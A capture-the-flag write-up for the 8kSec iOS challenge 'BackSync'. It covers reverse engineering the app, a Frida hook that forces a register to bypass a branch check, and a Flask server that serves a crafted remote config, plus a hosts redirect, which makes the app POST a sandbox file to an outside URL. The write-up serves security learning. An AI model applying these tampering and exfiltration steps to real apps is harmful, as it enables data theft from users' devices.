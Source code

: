 ```yaml
---
title: BackSync - 8kSec
date: 2025-9-1 00:00:00 +/-TTTT
categories: [8kSec]
tags: [8kSec, writeup, mobile penetration testing, ios]     # TAG names should always be lowercase
---
```


<br />

**Description:**

**BackSync** appears to be a straightforward profile viewer with minimal functionality. However, beneath its unassuming interface lies a background process that periodically fetches remote configurations. These configurations can influence the app’s behavior in unexpected ways.

<br />

**Objective:**

- Investigate the app’s background activities and determine how to manipulate its behavior to your advantage.
- Analyze the app to understand its configuration fetching mechanism. Craft a remote configuration that causes the app to perform an unintended action, leading to the retrieval of the hidden flag **remotely**.

<br />

**Restrictions:**

The flag resides in a local file within the app’s sandbox.

<br />

**Explore the application**

When the app launches, it displays a screen titled **“My Profile”** with two buttons  **“Log In”** and **“My Profile”**, but neither of these buttons performs any action.

![](/assets/img/8ksec/BackSync/1.jpg)

<br />

I noticed that the app periodically sends HTTP GET requests to a domain that changes each time the app is launched. The domain name always starts with three varying characters followed by **"deletedoldstagingsite.com"**.

![](/assets/img/8ksec/BackSync/1.png)

<br />

**Reverse Engineering With Ghidra**

Each time I launch the app, I observed that two functions are executed:

- **`_$s8BackSync18writeFlagToSandboxyyF()`**
- **`_$s8BackSync29fetchRemoteConfigPeriodicallyyyF()`**

These functions run automatically on every app startup.

![](/assets/img/8ksec/BackSync/4.png)

<br />

The `writeFlagToSandbox()` function creates a file named **flag.txt** and saves it in the app’s **Documents** directory.

![](/assets/img/8ksec/BackSync/2.png)

<br />

![](/assets/img/8ksec/BackSync/3.png)

<br />

We can verify that the flag exists in the app’s **Documents** directory by connecting to the iPhone via SSH and inspecting that directory.

```
└─# objection -g com.8ksec.BackSync.W46SY5ZJ6Z explore  
Checking for a newer version of objection...
Using USB device `iOS Device`
Agent injected and responds ok!

     _   _         _   _
 ___| |_|_|___ ___| |_|_|___ ___
| . | . | | -_|  _|  _| | . |   |
|___|___| |___|___|_| |_|___|_|_|
      |___|(object)inject(ion) v1.11.0

     Runtime Mobile Exploration
        by: @leonjza from @sensepost

[tab] for command suggestions
com.8ksec.BackSync.W46SY5ZJ6Z on (iPhone: 16.0) [usb] # env

Name               Path
-----------------  --------------------------------------------------------------------------------------------
BundlePath         /private/var/containers/Bundle/Application/1F870E8C-2885-4AAC-AB2E-3290F1B6717B/BackSync.app
CachesDirectory    /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Library/Caches
DocumentDirectory  /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents
LibraryDirectory   /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Library

```

<br />

```
iPhone:~ root# cd /var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents
iPhone:/var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents root# ls
flag.txt
iPhone:/var/mobile/Containers/Data/Application/04A6B26B-B465-4336-9621-FD99F384164F/Documents root# cat flag.txt 
FLAG{you_remotely_triggered_the_leak}                                                       
```

<br />

The `fetchRemoteConfig` function is responsible for sending the GET request to **deletedoldstagingsite.com**.

![](/assets/img/8ksec/BackSync/8.png)

<br />

The function located at offset **0x5370** parses JSON data from the HTTP response, converts it into a `[String: String]` dictionary, checks the fields **"mode"**, **"collect_logs"**, and **"target_url"**, and calls **`BackSync.sendFlag(to:)`** if all the required conditions are met.

<br />

![](/assets/img/8ksec/BackSync/9.png)

<br />

![](/assets/img/8ksec/BackSync/10.png)

<br />

At address **0x00005770**, the instruction

```assembly
tbnz w8, #0x0, LAB_000057a4
```

means **“Test Bit and Branch if Non-Zero.”** It checks bit **0** of the **w8** register.
 If that bit is **1**, the program **branches to `LAB_000057a4`**; otherwise, it continues to the next instruction.

The next instruction at **0x00005774**,

```assembly
b LAB_0000587c
```

is an unconditional branch that jumps to **`LAB_0000587c`**, effectively skipping the `LAB_000057a4` branch if the bit test fails.

The label **`LAB_000057a4`** represents the **branch where the `sendFlagTo()` function is called**, so for execution to reach that function, **the w8 register must have its least significant bit (bit 0) set to 1**.

<br />

![](/assets/img/8ksec/BackSync/5.png)

<br />

A Frida script that forces the register **x8** (w8) to `1` so the instruction
 `tbnz w8, #0x0, LAB_000057a4`
 succeeds and execution jumps to `LAB_000057a4`,  the branch that calls `sendFlagTo()`.

```javascript
var offset = ptr('0x5770');
var t_module = 'BackSync.debug.dylib';
var base = Module.getBaseAddress(t_module);
if (base === null) {
    throw new Error('Module not found: ' + t_module);
}

var target = base.add(offset);

Interceptor.attach(target, {
    onEnter: function (args) {
    	this.context.x8 = ptr(0x1);
    }
});
```

<br />

This Python script creates a simple **Flask web server** that provides a mock **remote configuration API endpoint**. When the server is running, it listens on port **80** for incoming HTTP GET requests. The route **`/remoteConfig`** is defined to return a JSON response that simulates the kind of configuration data the app’s `fetchRemoteConfig` function expects. Specifically, it sends a JSON object containing three keys: `"mode"` (set to `"test"`), `"collect_logs"` (set to `"true"` to enable log collection), and `"target_url"` (set to `"http://google.com"`, representing the destination URL for the flag). When a client, such as the app, makes a GET request to `/remoteConfig`, the server responds with this JSON payload. 

```python
from flask import Flask, jsonify

app = Flask(__name__)

@app.route('/remoteConfig', methods=['GET'])
def get_remote_config():
    response = {
        "mode": "test",
        "collect_logs": "true",
        "target_url":"http://google.com"
    }
    return jsonify(response)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=True)
```

<br />

run the python server

```
python3 main.py
```

<br />

Start the app with frida, identify the domain it requests (the one that looks like `<XXX>deletedoldstagingsite.com`), and add a hosts entry mapping that domain to localhost:

```
127.0.0.1  <XXX>deletedoldstagingsite.com
```

<br />

The app sends a request to `<XXX>deletedoldstagingsite.com`, receives the expected JSON response, and then sends a POST to the URL specified in `"target_url"`, with the flag included in the request body.

![](/assets/img/8ksec/BackSync/6.png)

<br />

![](/assets/img/8ksec/BackSync/7.png)

<br />

**Flag:** FLAG{you_remotely_triggered_the_leak}
